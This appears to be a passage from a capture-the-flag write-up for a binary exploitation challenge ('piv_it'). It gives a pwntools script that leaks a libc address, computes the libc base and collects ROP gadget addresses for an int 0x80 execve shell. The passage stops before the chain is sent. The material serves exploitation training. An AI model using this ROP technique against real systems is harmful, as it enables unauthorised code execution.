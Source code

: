 # Now, it also gives us the option to download this libc version. After doing so, we
# can use ropper on this file to get the offsets for our ROP chain gadgets, and can
# update our payload accordingly. If we now try run the script remotely, our ROP 
# chain executes successfully and pops a shell.

Script/Command used
------------------
```
PROGNAME = "challenges/./piv_it"
REMOTEIP = "plsdonthaq.me"
REMOTEPORT = 8002

if args.REMOTE:
    p = remote(REMOTEIP, REMOTEPORT)
    elf = ELF(PROGNAME)
else:
    p = process(PROGNAME)
    elf = p.elf

# Extracting the libc leak.
p.recvuntil("At: ")
libc_leak = int(p.recvline()[:-1], 0)
log.info("libc leak is: {}".format(hex(libc_leak)))

# Since my local machine and the remote server use different libc versions, the offset
# for printf is different for each.
if args.REMOTE:
    printf_offset = 0x0512d0
else:
    printf_offset = 0x513a0

# Given this libc leak and the libc offset for printf, we can now calculate the libc
# base.
libc_base = libc_leak - printf_offset
log.info("libc base is: {}".format(hex(libc_base)))

# Once again, since different versions of libc are used locally and remotely, the libc
# offsets for these gadgets differ.
if args.REMOTE:
    xor_eax = p32(libc_base + 0x0002e485)
    inc_eax = p32(libc_base + 0x00008aac)
    pop_ebx = p32(libc_base + 0x00018be5)
    bin_sh = p32(libc_base + 0x0017e0cf)
    pop_ecx_edx = p32(libc_base + 0x0002d54c)
    int_80 = p32(libc_base + 0x00002d37)
else:
    xor_eax = p32(libc_base + 0x0002e4d5)
    inc_eax = p32(libc_base + 0x00024b68)
    pop_ebx = p32(libc_base + 0x00018bf5)
    bin_sh = p32(libc_base + 0x0017e3cf)
    pop_ecx_edx = p32(libc_base + 0x0002d59c)
    int_80 = p32(libc_base + 0x00002d37)

# Once we have the addresses for all our gadgets, we can construct a ROP chain to
# pop a shell.
```